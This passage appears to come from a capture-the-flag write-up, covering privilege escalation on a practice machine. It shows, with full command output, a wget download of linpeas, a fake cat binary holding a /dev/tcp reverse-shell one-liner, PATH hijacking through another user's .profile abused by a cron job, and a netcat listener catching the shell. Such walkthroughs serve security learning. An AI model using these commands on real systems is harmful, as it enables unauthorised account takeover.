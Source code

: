 ## Privilege Escalation

Next, upload linpeas.sh from our python http server to scan the whole system to see any vulnerability.
```
ayham@482cbf2305ae:~$ wget http://<machine ip>:8888/linpeas.sh
ayham@482cbf2305ae:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
ayham@482cbf2305ae:~$ ./linpeas.sh
./linpeas.sh
```
```
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```
From the linpeas.sh output, it can be observed that the command

    $ bash -lc 'cat /home/F30s/health_check'

is executed. This indicates that bash acts as a login shell, initializing /etc/profile or .profile. In this scenario, a custom $PATH can be added to .profile. Since the cat command is not invoked with a full path, a fake cat binary can be created that functions as a reverse shell for the user F30s.
```
ayham@482cbf2305ae:~$ echo 'bash -i >& /dev/tcp/<machine ip>/5555 0>&1' > /tmp/cat
<h -i >& /dev/tcp/<machine ip>/5555 0>&1' > /tmp/cat
ayham@482cbf2305ae:~$ chmod +x /tmp/cat
chmod +x /tmp/cat
ayham@482cbf2305ae:~$ echo 'PATH="/tmp/:$PATH"' >> /home/F30s/.profile
echo 'PATH="/tmp/:$PATH"' >> /home/F30s/.profile
```
on the other terminal, start netcat listener

    $ nc -lnvp 5555

After few seconds netcat got reverse shell. 

```
$ nc -lnvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.201.81.200 53598
bash: cannot set terminal process group (357): Inappropriate ioctl for device
bash: no job control in this shell
F30s@482cbf2305ae:~$
```

Note that the user F30s cannot use the normal cat command because the $PATH was modified. To execute the fake /tmp/cat binary, the full path must be provided. 
```
F30s@482cbf2305ae:~$ ls
ls
health_check
site_check
F30s@482cbf2305ae:~$ /bin/cat ./health_check
/bin/cat ./health_check
Health: 1337/100
F30s@482cbf2305ae:~$ /bin/cat ./site_check
/bin/cat ./site_check
url = "http://127.0.0.1/health_check"
F30s@482cbf2305ae:~$ ls -la
ls -la
```